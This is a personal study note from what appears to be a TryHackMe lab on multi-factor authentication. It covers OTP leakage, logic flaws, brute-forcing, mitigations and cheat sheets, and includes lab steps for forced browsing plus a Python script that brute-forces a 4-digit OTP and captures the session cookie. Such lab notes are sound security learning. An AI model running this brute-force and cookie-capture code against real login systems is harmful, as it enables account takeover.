 
📅 **Date**: 24 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: authentication
🏷️ Tags: #tryhackme #tryhackme/learn 

---
# Multi Factor Authentication
## 1. Introduction to MFA
MFA (Multi-Factor Authentication): A security mechanism that requires users to provide two or more verification factors to access a resource.

 - [ ] Authentication Factors:
	- [ ]  Something you know: Passwords, PINs.
	- [ ] Something you have: OTPs, hardware tokens.
	- [ ] Something you are: Biometrics (fingerprint, facial recognition).

## 2. Common MFA Vulnerabilities
### 2.1 OTP Leakage
- [ ] **Definition**: Unintended exposure of One-Time Passwords (OTPs) due to insecure transmission, storage, or social engineering.

- [ ] **Causes**:
    - [ ] Man-in-the-Middle (MITM) attacks.
    - [ ] Phishing attacks.
    - [ ] Insecure storage (e.g., plaintext OTPs in databases).
    - [ ] SIM swapping.
- [ ] **Mitigation**:
    - [ ] Use secure channels for OTP transmission (e.g., encrypted apps like Google Authenticator).
    - [ ] Implement rate limiting to prevent brute-forcing.
### 2.2 Insecure Coding (Logic Flaws)

- [ ] **Definition**: Errors in application logic that allow attackers to bypass security controls.
- [ ] **Example**: Forced browsing to bypass OTP verification.
- [ ] **Mitigation**:
    - [ ] Implement proper access controls.
    - [ ] Validate user sessions and permissions at every step.

### 2.3 Brute-Forcing OTPs
- [ ] **Definition**: Repeatedly guessing OTPs to gain unauthorized access.
    
- [ ] **Mitigation**:
    - [ ] Rate limiting (restrict OTP attempts).
    - [ ] Account lockout after multiple failed attempts.
    - [ ] Use longer OTPs (e.g., 6 digits instead of 4).

## 3. Practical Exploits

### 3.1 OTP Leakage Exploit

- [ ] **Steps**:
    1. Log in to the application.
    2. Capture the OTP via Developer Tools (Network tab).
    3. Use the OTP to bypass authentication.
- [ ] **Tools**: Browser Developer Tools (F12).

### 3.2 Forced Browsing (Insecure Coding)

- [ ] **Steps**:
    1. Log in to the application.
    2. Directly navigate to the dashboard URL (e.g., `http://mfa.thm/labs/second/dashboard`).
    3. Bypass OTP verification and access the dashboard.
- [ ] **Mitigation**: Ensure proper session validation and access controls.

### 3.3 Beating Auto-Logout (Session Hijacking)

- [ ] **Steps**:
    1. Use a Python script to brute-force the OTP.
    2. Extract the session cookie (`PHPSESSID`).
    3. Use the session cookie to log in without credentials or OTP.

```python
import requests

# Define URLs and credentials
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
credentials = {'email': 'thm@mail.thm', 'password': 'test123'}

# Brute-force OTP
def brute_force_otp():
    for otp in range(10000):
        session = requests.Session()
        session.post(login_url, data=credentials)
        otp_str = f"{otp:04}"
        response = session.post(otp_url, data={'code-1': otp_str[0], 'code-2': otp_str[1], 'code-3': otp_str[2], 'code-4': otp_str[3]})
        if response.status_code == 302:
            print(f"Success! OTP: {otp_str}")
            print(f"Session Cookie: {session.cookies.get_dict()}")
            return session.cookies.get_dict()

brute_force_otp()
```
## 4. Cheat Sheets

### 4.1 OTP Security Best Practices
- [ ] Use secure channels for OTP delivery.
- [ ] Implement rate limiting and account lockout mechanisms.
- [ ] Avoid SMS-based OTPs (use app-based OTPs like Google Authenticator).

### 4.2 Session Hijacking Prevention
- [ ] Use secure, HTTP-only cookies.
- [ ] Implement session expiration and auto-logout.
- [ ] Regenerate session IDs after login.

### 4.3 Forced Browsing Mitigation
- [ ] Validate user permissions at every step.
- [ ] Use role-based access control (RBAC).
- [ ] Avoid exposing sensitive URLs directly.
